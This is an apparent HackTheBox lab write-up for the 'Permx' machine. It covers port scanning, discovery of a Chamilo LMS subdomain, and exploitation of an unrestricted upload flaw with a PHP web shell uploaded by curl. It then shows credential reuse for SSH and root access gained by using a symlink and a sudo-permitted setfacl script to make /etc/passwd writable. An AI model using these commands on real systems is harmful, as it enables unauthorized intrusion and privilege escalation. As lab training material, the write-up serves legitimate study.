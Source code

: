 | Name            | Permx                                                                               |
| --------------- | ----------------------------------------------------------------------------------- |
| Platform        | HTB                                                                                 |
| Difficulty      | Ezz                                                                               |
| OS              | Linux                                                                               |
| Used techniques | known exploit                                                                        |
| Technologies    | html, php, chamilo, hidden directories                                              |
| Tools           | gobuster,  BurpSuite, sqlmap, nc, strings, weak perms, symlink, discover credential |
| CVEs            | CVE-2023-34944                                                                      |

## Enumeration


```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.54 seconds
```


Important points: Ubuntu, hostnamp.
Possible users, enumeration from website: noah, elsie, ralph, mia and john doe.
### Directories

There are no directories out of the web site spidern

/courses.html
/team.html                    
/contact.html             
/index.html                 
/about.html                
/404                     
/testimonial.html            

None of them give us important information. There is no clear attack vector on this site.

### subdomains

**lms.permx.htb php extension**, is an admin panel.

![[Pasted image 20240710073644.png]]


If we try to enumerate directories, we find /documentation and there says that the version is 1.11, but we can not find a exploit for this version. However, we saw that we can still. Apart from that, we discover: */bin, /src/, /app,* ...
 
![[Pasted image 20240710073416.png]]

If we enumerate those directories, we will find config files and files with *.php* extension that can not be retrieved. It is a rabbit hole.

After that, looking for information about this app we found a upload vulnerability in one of the directories: *"Unrestricted file upload in big file upload functionality in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` in Chamilo LMS <= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell."*

## Foothold

Knowing which vulnerability it has, we just need to upload a reverse shell. This is the PoC:

```shell
$ echo '<?php system("id"); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' 'http://<chamilo>/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
$ curl 'http://<chamilo>/main/inc/lib/javascript/bigupload/files/rce.php'

```

After getting shell, we can get access to those *php* files that we couldn't read before. In particular, *app/config* files will give us user account credentials:

![[Pasted image 20240710075118.png]]

If we spray them, we get ssh.



## Privilege Escalation

We can execute sudo for one script.:

![[Pasted image 20240710075214.png]]

There is a section for **setfacl** in gtfobins, however there are restrictions if we try to apply this script for files outside our home directory. One way to bypass them is using *symlinks.

If we create a symlink pointing to /etc/passwd, we can modify the perms in order to get root privileges.

In resume, we can execute on binary (**setfacl**) with root privileges to assign */etc/passwd* with **weak permission**.

```shell
ln -s /etc/passwd file
sudo /opt/acl.sh mtz rw ~/file
vi file
```


![[Pasted image 20240710080348.png]]
#### Developed map


![[permx10.10.11.23.png]]
#### Sources
https://starlabs.sg/advisories/23/23-4220/
https://gtfobins.github.io/gtfobins/setfacl/
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/